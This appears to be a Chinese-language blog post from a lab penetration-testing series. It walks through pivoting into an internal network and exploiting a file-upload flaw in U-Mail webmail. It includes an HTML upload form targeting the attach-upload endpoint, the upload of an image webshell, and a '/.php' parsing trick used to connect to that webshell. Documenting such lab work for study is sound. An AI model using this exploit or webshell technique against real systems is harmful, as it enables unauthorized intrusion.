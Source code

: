 ```yaml
---
ylayout:     post
title:      内网漫游【三】
subtitle:   web-内网渗透
date:       2019-06-09
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - 渗透测试
    - 内网渗透
    - 内网漫游
    - web渗透
---
```


# 内网漫游【三】

> ## 【实验环境】仅供学习参考

## 【内网渗透】

>  **我们上篇讲到已经进入目标主机的内网，并进入了路由页面**

* 现在尝试在路由页面收集信息，发现其他内网主机IP

* 在终端监控处发现一个ip为`172.19.23.123`的内网主机

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190609150414.png)

* 使用http隧道代理建立连接，并访问目标IP

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190609150710.png)

* 发现是一个`u-mail`  CMS,我们也在上一篇的时候在另外一台内网主机上发现了一个domain.com的账号密码，现在可以用到。

* `u-mail` CMS曾经爆发过严重的文件上传漏洞，我们可以尝试检查目标网站有没有修复该漏洞

**【EXP代码如下】：**

```
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<FORM name=form1 method=post 
action="http://172.19.23.123/webmail/client/mail/index.php?module=operate&action=attach-upload" enctype=multipart/form-data>
上传文件：<input type="file" name="Filedata" size="30">
<INPUT type=submit value=上传 name=Submit>

```

* html页面如此展示

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190609151220.png)

* 上传一个图片马后，爆出相应的file_id信息

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190609151307.png)

* 账户id为`3`，fileid为`1559808738`尝试连接，并用/.php解析上传的图片马

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190609151429.png)

* 成功连接大马

> ### 成功get另外一个网段内网主机的webshell



> ### 未完待续....  ：）
